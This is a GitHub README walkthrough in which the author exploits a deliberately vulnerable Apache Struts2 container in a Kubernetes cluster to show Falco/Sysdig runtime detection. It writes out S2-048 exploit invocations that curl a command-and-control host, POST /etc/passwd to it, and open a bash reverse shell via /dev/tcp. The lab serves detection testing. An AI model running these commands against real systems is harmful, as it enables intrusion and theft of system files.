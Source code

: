 # struts_poc  
all credit to https://github.com/hook-s3c/apache-struts2-PoC, all I did was make it work in EKS  

![image](https://user-images.githubusercontent.com/4404271/153259381-52907b2b-ab78-4699-bde6-0cf7b35393a8.png)

## There are sometimes holes.
## This is nothing more than good old Kali struts poc rev shell in a k8s cluster. Simple.  
## Scroll down for a tldr GIF :-)  

![image](https://user-images.githubusercontent.com/4404271/155650062-66a0d0e0-5091-4dd0-9eb9-cb125d21dddb.png)


`Here's a bit of a reminder to myself for how I did this:`    

git clone https://github.com/hook-s3c/apache-struts2-PoC  
cd apache-struts2-PoC/  
docker build -t struts .  
docker run -it --rm -d -p 8080:8080 struts:latest  
docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest  

#public login to us-west-2 not supported by aws, no worries it's supported in us-east-1 so let's just do it there ;-)  

aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws  
docker push public.ecr.aws/v9f6i2g3/stuff:latest  
kubectl apply -f strust-deploy-and-service.yaml  
ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC  
  
kubectl get service -n struts  
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE  
struts   LoadBalancer   10.100.144.108   12345.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m

`Step 1`  

OK now we can attack, from the attacker "box" (actually just a tmux on my ubuntu box):  

cd ~/apache-struts2-PoC  
python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'env'  

...and we dump the environment from our struts box, to our attacker "box" and see it on STDOUT... not good!  

KUBERNETES_SERVICE_PORT_HTTPS=443  
KUBERNETES_SERVICE_PORT=443  
STRUTS_PORT_8080_TCP_PORT=8080  
STRUTS_SERVICE_PORT=8080  
HOSTNAME=struts-7d8c95bbbd-9p9pp  
JAVA_HOME=/usr/local/openjdk-8  
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42
etc..  


`Step 2`  
First, on the cc server, start some simple web server (you can find it in this repo) such as: 

python3 webserver.py  

`Step 3`  

Now let us force our exploitable struts instance to reach out to our webserver like this:  

python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'curl jumpbox.brett1.com:8080/hi_from_inside_the_container_in_our_cluster'

So that is an HTTP GET method. We can imagine, a workload needs to update or get some file, it may be permissable to let it do a GET, but we want to know when this happens.  
So, I wondered if I could modify an existing Falco rule to warn on curl GET? Yes! 
![image](https://user-images.githubusercontent.com/4404271/155773758-cf712d92-c7f1-42e9-913f-d34c5c2fd1b2.png)
![image](https://user-images.githubusercontent.com/4404271/155773836-8430f346-1858-41a6-ac30-5f589bb930da.png)


So, as you can see above, Falco allows us to get granular enough to tell the difference between a curl POST and a curl GET <Borat>very nice!</Borat>  
So, this GET shows up on our little CC web server, and logs in Sysdig Events as a warning about curl, naughty, but I'll allow it, this time!  

![image](https://user-images.githubusercontent.com/4404271/155774031-a30a2755-7851-4cbb-95b3-30c231ab38fd.png)
![image](https://user-images.githubusercontent.com/4404271/155774091-c6d9dcd4-939c-43a7-a981-0128516feace.png)

Here you can see Sysdig agent running in our EKS cluster warns on curl GET, but allows it:  
![image](https://user-images.githubusercontent.com/4404271/155774256-163a9e44-3f0f-41b4-bc9c-3b37e4ef7039.png)

`Step 4`  

OK now with our confidence sky high, through the roof, let's do a curl POST to send the passwd file to our CC server here we go:  
(But first, we must turn off our Sysdig policy to block POST or else we will never see it work)  
![image](https://user-images.githubusercontent.com/4404271/155774448-99285ef4-027f-43a8-b4bc-8712f9540372.png)

python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'curl -d @/etc/passwd jumpbox.brett1.com:8080'

And believe me, that works! We see the passwd file appearing in our CC server.  
![image](https://user-images.githubusercontent.com/4404271/155774611-879cc683-20db-4454-93df-2dab0de3eaab.png)
![image](https://user-images.githubusercontent.com/4404271/155774632-a9f44814-7eb7-4e11-87ed-407cdc604266.png)

OK this is beyond the pale, we cannot allow this.  
So we simply toggle our curl POST policy to ON, this has the Falco rule to fire iif there is a curl POST,  
and has an action to kill the container:  
![image](https://user-images.githubusercontent.com/4404271/155774866-38990415-0101-43f1-a6ab-8090bfd2f1fb.png)

And it works! The container is killed so quickly, the passwd never shows up on the CC server (I know, I tested it probably a hundred times)  

`Step 5`  

So now to put the cherry on top, let's do a reverse shell:  
On our CC server let's just listen like so: nc -l 4242  

And then from our attack box let's do it:  
python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'bash -i >& /dev/tcp/52.206.9.54/4242 0>&1'

And if you like to watch animations here we are:  

![struts_rs](https://user-images.githubusercontent.com/4404271/153033823-b0d10a6b-4faa-4f0e-b8d1-8dde69cf1562.gif)

![image](https://user-images.githubusercontent.com/4404271/153435925-60ccd750-ad11-4f80-ad72-e27f01d75e09.png)

![image](https://user-images.githubusercontent.com/4404271/153497163-7b424dc2-3652-4798-9200-1606fd54876f.png)

![image](https://user-images.githubusercontent.com/4404271/153490296-a07fb685-8b04-48bb-8af0-7bff11cc2c21.png)

